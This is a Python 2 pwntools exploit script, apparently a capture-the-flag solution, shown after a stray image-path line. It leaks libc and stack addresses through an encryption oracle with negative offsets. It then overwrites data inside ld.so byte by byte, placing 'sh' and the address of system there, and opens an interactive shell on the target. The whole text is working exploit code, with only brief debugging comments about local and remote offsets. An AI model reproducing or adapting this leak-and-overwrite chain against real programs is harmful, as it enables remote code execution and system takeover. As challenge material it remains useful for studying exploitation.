 ```python


libc_addr = dec(enc(-0x40))
libc_addr = u64(libc_addr[:8]) - e.symbols["_IO_2_1_stderr_"]
print hex(libc_addr)

def calc_off(addr):
	return addr - (prog_addr + 0x2023a0)

env_off = calc_off(libc_addr+0x3f04c0)

stack_addr = dec(enc(env_off))
stack_addr = u64(stack_addr[:8]) + 0x10 - 0x120
print hex(stack_addr)

# 0.5, need to make i negative
enc(calc_off(stack_addr))


# previous bytes might be affected
def write_byte(addr, val, data):
	assert len(data) == 0x10
	off = calc_off(addr - 0xf)
	count = 0
	while True:
		data = enc2(data)
		count += 1
		if u8(data[0xf]) == val:
			break
	for i in xrange(count):
		sh.send(str(off) + '\n15\n')
	for i in xrange(count):
		sh.recvuntil("offset:")
	return data

ld_addr = libc_addr + 0x3f1000

def write_bytes(addr, s, data):
	assert len(data) == 0x10 + len(s)
	i = len(s) - 1
	for c in s[::-1]:
		data = data[:1+i] + write_byte(\
			addr + i, u8(c), data[1+i:0x11+i]) + \
			data[0x11+i:]
		i -= 1

# print hex(u64(dec(enc(calc_off(ld_addr + 0x228f50)))[:8]))
# sh.interactive()
od1 = p64(0) + p64(1)
write_bytes(ld_addr + 0x228968, "sh", od1 + 2*'\x00')
od2 = p64(0) + p64(0)
write_bytes(ld_addr + 0x228f60, \
	p64(libc_addr + e.symbols["system"])[:3], \
	od2+p64(ld_addr+0x10e0)[:3])
# local 0x440->0x441
# remote 0x440->0x496

# print hex(libc_addr + e.symbols["system"])
# print hex(u64(dec(enc(calc_off(ld_addr + 0x228f60)))[:8]))
# print hex(u64(dec(enc(calc_off(ld_addr + 0x228968)))[:8]))

sh.interactive()
```